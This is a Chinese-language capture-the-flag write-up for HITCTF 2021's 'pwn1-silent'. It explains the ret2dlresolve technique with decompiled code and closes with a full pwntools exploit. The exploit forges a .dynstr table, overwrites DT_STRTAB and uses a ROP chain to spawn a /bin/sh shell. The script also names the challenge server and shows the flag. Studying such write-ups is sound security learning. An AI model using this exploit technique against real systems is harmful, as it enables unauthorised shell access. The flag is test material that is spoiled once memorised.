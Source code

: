 # ret2dlresolve 2021 hitctf pwn1-silent

> challenge name: pwn1-silent
>
> file: pwn
>
> .i64 with comments provided
>
> writeup writer: hexhex16@outlook.com    https://github.com/hex-16 
>
> thanks yuxc liwl

`_dl_runtime_resolve`的具体过程建议看ctf-wiki Executable ELF 程序连接下的源码阅读部分。

大致过程为：

plt表中，先push一个函数`f`对应的offset，然后jmp到公共plt表（在函数plt表项上面），push `.got.plt`的首地址，然后jmp到`.got.plt`中的一个地址以调用`_dl_runtime_resolve`去查找函数`f`的真实地址并填到got表中，然后再调用`f`

在这题中的过程：

1. 在`bss_buf`构造假的`.dynstr`，把`read`替换为`system`，再存一个`/bin/sh`
2. 把`ELF Dynamic Information`中的`DT_STRTAB`存的`.dynstr`地址改为`bss_buf`的地址，这样调`_dl_runtime_resolve`时使用的`.dynstr`表就是`bss_buf`中存储的
3. 控制程序跳转到`read@plt`后，调`_dl_runtime_resolve`，把`bss_buf`作为`.dynstr`解析`system`符号在`libc`中的地址并填到`read@got`，然后`call read@got`实际调用的就是`system`，在此之前让`rdi`指向`/bin/sh`即可



```assembly
comm_plt    proc near   ; 这一段在.plt上
; __unwind {
               push    cs:p_got_plt ; .got.plt的首地址
               jmp     cs:qword_600B70 ; 跳转过去调用 _dl_runtime_resolve
 comm_plt      endp ; 上面这个就是公共plt表
               align 10h
               push    0 ; 某个函数的 .got.plt 表偏移
               jmp     comm_plt ; 跳转到公共.plt表
               push    1
               jmp     comm_plt
```

> 留一个坑：学习`_dl_runtime_resolve`的详细过程，调试在不同RELRO下的got表状态

# IDA Analysis

1. 向bss区上的一个buf写入32B
2. 读入8B，将这8B转换为int，向这个int表示的地址上写入任意8B，这里存在任意地址写（配合No PIE）
3. 向`stack_buf`写入88B，`stack_buf`在`rbp-0x30`处，存在栈溢出（配合No canary）

```cpp
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  int a_int; // eax
  char stack_buf[32]; // [rsp+0h] [rbp-30h] BYREF
  char nptr[16]; // [rsp+20h] [rbp-10h] BYREF

  setvbuf_ini();
  input_str(32, bss_buf);
  input_str(8, nptr);
  a_int = atoi(nptr);
  input_str(8, (char *)a_int);                  // 任意地址写8B
  input_str(88, stack_buf);                     // 栈溢出
  return 0LL;                                   // 0x40076D
}
```

```cpp
char *__fastcall input_str(int a1, char *buf)
{
  char *result; // rax
  int i; // [rsp+1Ch] [rbp-4h]

  for ( i = 0; i < a1; ++i )
  {
    read(0, &buf[i], 1uLL);
    if ( buf[i] == '\n' )
      break;
  }
  result = &buf[i];
  *result = 0;
  return result;
}
```

```bash
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

- No canary, No PIE, No RELRO

# exp

```python
from pwn import *
context.binary = "./pwn"
context.log_level = "debug"
IP = "47.106.219.36"
PORT = 10000
DEBUG = 1

elf = ELF("./pwn")

if DEBUG:
    p = process("./pwn")  #
    # attention: argv[1] for ./pwn when running with ./ld.so ./pwn
    base = p.libs()[p._cwd + p.argv[0].decode().strip('.')]  # fix bytes str error in py3.9
    print("base:", hex(base), p.libs())

else:
    p = remote(IP, PORT)  # HITCTF2021{Y0u_GOT_r0okie-re2dlresolve}


def ru(x): return p.recvuntil(x)
def se(x): return p.send(x)
def rl(): return p.recvline()
def sl(x): return p.sendline(x)
def rv(x): return p.recv(x)
def sa(a, b): return p.sendafter(a, b)
def sla(a, b): return p.sendlineafter(a, b)
def l64(): return u64(p.recvuntil("\x7f")[-6:].ljust(8, b"\x00"))  # python 3.9 pass


def debug(cmd=""):
    gdb.attach(p, cmd)


def dd():
    if DEBUG:
        cmd = ""
        cmd += "b *%d\n" % (0x4004f6)  # addr of .plt: push 0; jmp sub_4004E0 (dlresolve)
        cmd += "b *%d\n" % (0x40076c)  # leave ret
        cmd += "set $a=%d\n" % (0x600C00)  # bss_buf      0x600b68
        debug(cmd)


dd()
pause()

# === Step-1: 把假的.dynstr存到bss上可控buf中，同时存一个/bin/sh字符串
fake_STRTAB_temp = "\x00libc.so.6\x00stdin\x00puts\x00/bin/sh\x00\n"
fake_STRTAB = "\x00libc.so.6\x00stdin\x00system\x00/bin/sh\x00"  # fake ELF String Table .dynstr
print("fake_STRTAB==>", len(fake_STRTAB), fake_STRTAB) # system所在的地方原本为read
se(fake_STRTAB)  # bss_buf 0x600C00

# === Step-2: 把.dynstr的地址改成bss上可控buf的地址
se("6294032\n")  # 0x600A08+8 # addr of DT_STRTAB(.dynstr) # ori value: 0x400368
se("\x00\x0c\x60\n")  # nptr # 6294528 = 0x600C00 "\x00\x0c\x60\n" addr of bss_buf
# cover addr of .dynstr to controlable bss buf

# === Step-3: ROP: 把/bin/sh地址存到rdi后跳到read@plt，就会调_dl_runtime_resolve解析出system并调用
rbp = 0xdeadbeef
pop_rdi_ret = 0x00000000004007d3
bin_sh = 0x600C00 + 24  # addr of /bin/sh
# payload: pop rdi; ret; addr_bin_sh; .plt_read
payload = b"deadbeef".ljust(0x30, b"a") + p64(rbp) + p64(pop_rdi_ret) + p64(bin_sh) + p64(0x4004f6)
se(payload)
p.interactive()

```


